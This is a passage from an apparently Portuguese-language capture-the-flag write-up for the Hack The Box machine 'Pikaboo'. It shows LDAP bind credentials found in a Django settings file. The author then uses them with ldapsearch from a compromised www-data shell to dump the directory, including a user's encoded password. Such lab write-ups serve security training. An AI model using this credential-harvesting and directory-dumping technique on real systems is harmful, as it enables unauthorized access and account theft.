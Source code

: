 ```json
DATABASES = {
    "ldap": {
        "ENGINE": "ldapdb.backends.ldap",
        "NAME": "ldap:///",
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",
        "PASSWORD": "J~42%W?PFHl]g",
    },
    "default": {
        "ENGINE": "django.db.backends.sqlite3",
        "NAME": "/opt/pokeapi/db.sqlite3",
    }
}
```

Com as credenciais, podemos enumerar o LDAP com o `ldapsearch`.

```bash
www-data@pikaboo:/opt/pokeapi/config$ ldapsearch -D "cn=binduser,ou=users,dc=pikaboo,dc=htb" -w "J~42%W?PFHl]g" -b "dc=pikaboo,dc=htb" -LLL -h 127.0.0.1 -p 389 -s sub "(objectClass=*)"                               
<" -LLL -h 127.0.0.1 -p 389 -s sub "(objectClass=*)"
dn: dc=pikaboo,dc=htb
objectClass: domain
dc: pikaboo

dn: dc=ftp,dc=pikaboo,dc=htb
objectClass: domain
dc: ftp

dn: ou=users,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: users

dn: dc=pokeapi,dc=pikaboo,dc=htb
objectClass: domain
dc: pokeapi

dn: ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: users

dn: ou=groups,dc=ftp,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: groups

dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: pwnmeow
cn: Pwn
sn: Meow
loginShell: /bin/bash
uidNumber: 10000
gidNumber: 10000
homeDirectory: /home/pwnmeow
userPassword:: X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==

dn: cn=binduser,ou=users,dc=pikaboo,dc=htb
cn: binduser
objectClass: simpleSecurityObject
```